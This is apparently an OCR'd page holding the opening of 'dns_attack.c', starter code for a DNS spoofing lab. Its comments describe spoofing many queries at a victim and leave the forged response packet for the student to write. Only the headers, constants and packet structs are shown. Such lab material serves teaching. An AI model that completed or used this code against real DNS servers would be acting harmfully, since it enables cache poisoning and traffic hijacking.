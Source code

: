 位于0x1c

dns_attack.c

```c
// ----udp.c------
// This sample program must be run by root lol!
//
// The program is to spoofing tons of different queries to the victim.
// Use wireshark to study the packets. However, it is not enough for
// the lab, please finish the response packet and complete the task.
//
// Compile command:
// gcc -lpcap dns_attack.c -o dns_attack
//
//

#include <unistd.h>
#include <stdio.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <netinet/udp.h>
#include <fcntl.h>
#include <string.h>
#include <errno.h>
#include <stdlib.h>
#include <libnet.h>
// The packet length
#define PCKT_LEN 8192
#define FLAG_R 0x8400
#define FLAG_Q 0x0100

// Can create separate header file (.h) for all headers' structure
// The IP header's structure
struct ipheader
{
    unsigned char iph_ihl : 4, iph_ver : 4;
    unsigned char iph_tos;
    unsigned short int iph_len;
    unsigned short int iph_ident;
    //    unsigned char      iph_flag;
    unsigned short int iph_offset;
    unsigned char iph_ttl;
    unsigned char iph_protocol;
    unsigned short int iph_chksum;
    unsigned int iph_sourceip;
    unsigned int iph_destip;
};

// UDP header's structure
struct udpheader
{
    unsigned short int udph_srcport;
    unsigned short int udph_destport;
    unsigned short int udph_len;
    unsigned short int udph_chksum;
};
struct dnsheader
{
    unsigned short int query_id;
    unsigned short int flags;
    unsigned short int QDCOUNT;
    unsigned short int ANCOUNT;
    unsigned short int NSCOUNT;
    unsigned short int ARCOUNT;
```